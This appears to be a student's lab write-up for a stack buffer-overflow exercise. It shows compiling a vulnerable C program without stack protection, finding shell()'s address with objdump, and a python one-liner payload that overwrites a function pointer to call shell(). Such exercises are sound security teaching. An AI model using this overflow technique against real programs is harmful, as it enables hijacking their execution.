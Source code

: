 # Lab bof2
Hà Quốc Tiến - 22110075<br>
## Target
- `void (*func)()=sup;` is calling the `sup()`, we want it to run the `shell()` instead.
## Solution
- Stack frame<br>
![bof3_1]()
- Viewing the stack frames, we see that in order to call `shell()` instead. We need to buffer-overflow so that `(*func)() = "shell()'s address"`. It's similar to `bof2.c`, here we also look at the `fgets()`. And see it can take 133 bytes of data, while `buf` can only store 128.<br>
## Execution
1. Create `bof3.out` by using ` gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
2. Get the address of `shell()`.<br>
    > `objdump -d bof3.out|grep shell`

    ![bof3_2]()
3. We start buffer-overflowing 132 bytes of data into `buf[128]`.
128 bytes of random data + 4 bytes address of `shell()`<br>
    > echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')")| ./bof3.out

    ![bof3_3]()
- And the labs is done.
